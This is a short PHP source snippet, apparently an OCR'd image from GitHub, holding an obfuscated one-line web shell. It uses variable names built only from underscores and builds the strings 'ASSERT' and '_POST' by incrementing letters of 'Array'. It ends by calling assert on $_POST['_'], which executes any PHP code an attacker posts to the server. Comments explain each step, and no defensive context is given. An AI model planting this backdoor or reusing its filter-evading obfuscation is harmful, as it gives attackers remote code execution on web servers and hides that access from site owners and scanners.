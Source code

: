 ```
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
```

